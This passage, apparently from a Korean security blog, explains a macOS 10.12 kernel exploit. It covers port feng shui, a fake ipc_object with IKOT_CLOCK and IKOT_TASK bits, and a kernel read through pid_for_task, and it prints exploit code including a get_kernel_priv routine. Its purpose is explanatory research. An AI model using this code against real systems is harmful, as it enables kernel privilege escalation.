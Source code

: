[ 28] D01B501C-E5B8-36AC-930C-978C205EFEFF 0xffffff7f92b6c000 /Library/Developer/KDKs/KDK_10.12.1_16B2657.kdk/System/Library/Extensions/IOGraphicsFamily.kext/IOGraphicsFamily 
      /Library/Developer/KDKs/KDK_10.12.1_16B2657.kdk/System/Library/Extensions/IOGraphicsFamily.kext.dSYM/Contents/Resources/DWARF/IOGraphicsFamily
[ 29] C0ABF85C-CA30-3F02-9E1E-06F3BA5047A8 0xffffff7f938fa000 //System/Library/Extensions/vecLib.kext/Contents/MacOS/vecLib 
[ 30] 03A8E3F2-F30D-3D41-85E7-0B1C58034419 0xffffff7f9398f000 /Library/Developer/KDKs/KDK_10.12.1_16B2657.kdk/System/Library/Extensions/IOAudioFamily.kext/Contents/MacOS/IOAudioFamily 
      /Library/Developer/KDKs/KDK_10.12.1_16B2657.kdk/System/Library/Extensions/IOAudioFamily.kext.dSYM/Contents/Resources/DWARF/IOAudioFamily
[ 31] F39509A4-191C-35DA-B7D9-08F95E5AB8BC 0xffffff7f93a7b000 //System/Library/Extensions/AppleUpstreamUserClient.kext/Contents/MacOS/AppleUpstreamUserClient 
[ 32] 6FE984DD-A1FE-309E-83CF-B346989A6F17 0xffffff7f93d73000 //System/Library/Extensions/AppleIntelSlowAdaptiveClocking.kext/Contents/MacOS/AppleIntelSlowAdaptiveClocking 
[ 33] B36990F3-B873-31BB-8A1B-5615A3277382 0xffffff7f93251000 /Library/Developer/KDKs/KDK_10.12.1_16B2657.kdk/System/Library/Extensions/IOSerialFamily.kext/Contents/MacOS/IOSerialFamily 
      /Library/Developer/KDKs/KDK_10.12.1_16B2657.kdk/System/Library/Extensions/IOSerialFamily.kext.dSYM/Contents/Resources/DWARF/IOSerialFamily
{% endhighlight %}

우선  위 커맨드로 커널이 로딩된 베이스주소를 알아낼 수 있다. 구조체의 오프셋을 알고있다면 그 커널주소에서 오프셋만큼 더해 구조체를 볼 수 있다. 아래부터는 디버깅을 하는대신, dumpcode함수를 이용하여 한눈에 보기쉽도록 코드를 작성했다.

<img src="{{ site.url }}/images/2017-05-16/2.png" style="display: block; margin: auto;">

msg1와 msg2를 초기화한 상태와, Port 풍수를 이용하여 달라진 모습이다. 

OOL port 풍수를 통해 ipc_object pointer를 fake ipc_object를 가리키게 만든다. 그리고나서 ipc_object의 io_bits를 IKOT_CLOCK으로 설정하는데, 위에 ipc_object 구조체를 보면 처음부분에 io_bits가 존재한다.

익스 코드에는 다음과 같이 되어있다.

{% highlight c %}
fake_port->io_bits = IO_BITS_ACTIVE | IKOT_CLOCK; // for clock trap
...
fake_port->io_bits = IO_BITS_ACTIVE | IKOT_TASK; // for task trap
{% endhighlight %}

io_bits는 mach port type쓸때 적용해주는것인데, 우리는 먼저 커널을 릭해내야 하기 때문에 IKOT_CLOCK으로 비트를 주었다. IKOT_CLOCK을 사용한 이유는 clock_sleep_trap()를 통해 해당 주소에서 릭을 하기 위함이다. clock_sleep_trap을 이용하여 릭을하면, vtable의 주소를 얻어낼것이고, 오프셋은 동일하기때문에 get_kernel_addr()에서 커널 text주소를 구해낸다.

<img src="{{ site.url }}/images/2017-05-16/clock.png" style="display: block; margin: auto;">



또, IKOT_TASK를 설정한 이유는 fake task를 작성해서 사용할것이기때문에 포트타입을 task로 설정해주는 것이다. 전체적으로 보면 fake task는 값을 조작해서 pid_for_task를 이용해 커널메모리를 읽기위해 쓰인다. 다음을 보면 pid_for_task를 이용하여 현재 프로세스주소를 릭하는것을 획안 할 수 있다.

**중요한것은 pid_for_task가 task의 유효성을 검사하지않고 리턴을 (faketask + 0x380) + 0x10)값으로 주기때문에 릭이 가능한것이다.**

{% highlight c %}
dumpdata* get_kernel_priv(uint64_t kernel_process, uint64_t* fake_port, void* fake_task, mach_port_t* manipulated_port){
    dumpdata* data = (dumpdata *)malloc(sizeof(dumpdata));
    data->dump_port = malloc(0x1000);
    data->dump_task = malloc(0x1000);

    uint64_t kern_task = 0;
    *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kernel_process + 0x18) - 0x10 ;
    pid_for_task(manipulated_port, (int32_t*)&kern_task);
    *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kernel_process + 0x1C) - 0x10;
    pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&kern_task)) + 4));

    uint64_t itk_kern_sself = 0;
    *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + ITK_KERN_SSELF_GAP_IN_TASK) - 0x10;
    pid_for_task(manipulated_port, (int32_t*)&itk_kern_sself);
    *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + ITK_KERN_SSELF_GAP_IN_TASK + 4) - 0x10;
    pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&itk_kern_sself)) + 4));